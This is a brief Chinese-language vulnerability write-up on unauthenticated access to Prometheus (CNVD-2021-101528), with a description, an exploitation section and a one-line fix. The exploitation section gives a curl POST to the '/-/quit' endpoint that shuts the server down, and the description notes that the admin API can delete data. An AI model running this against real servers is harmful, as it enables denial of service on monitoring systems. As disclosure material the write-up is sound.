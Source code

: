 ### 一 漏洞描述
Prometheus 是一个开源监控系统，它前身是SoundCloud的告警工具包。从 2012 年开始，许多公司和组织开始使用 Prometheus。  
常与Grafana(便捷的可视化解决方案)组合。  

Prometheus未授权访问漏洞，攻击者可利用该漏洞获取敏感信息，/api/v1/status/flags的web.enable-admin-api和web-enable-lifecycle如果为True则可以关闭服务或者删除所有的端点。

### 二 漏洞利用
查询
![img.png](img.png)

关闭
```
curl -X POST :9090/-/quit
```
https://www.robustperception.io/shutting-down-prometheus/

### 三 漏洞修复
添加身份验证

> 参考链接  
> https://www.cnvd.org.cn/flaw/show/CNVD-2021-101528  
> https://jfrog.com/blog/dont-let-prometheus-steal-your-fire/  
> PromQL: https://yunlzheng.gitbook.io/prometheus-book/parti-prometheus-ji-chu/promql/prometheus-query-language
> PromQL: https://prometheus.io/docs/prometheus/latest/querying/basics/  
> https://www.robustperception.io/shutting-down-prometheus/
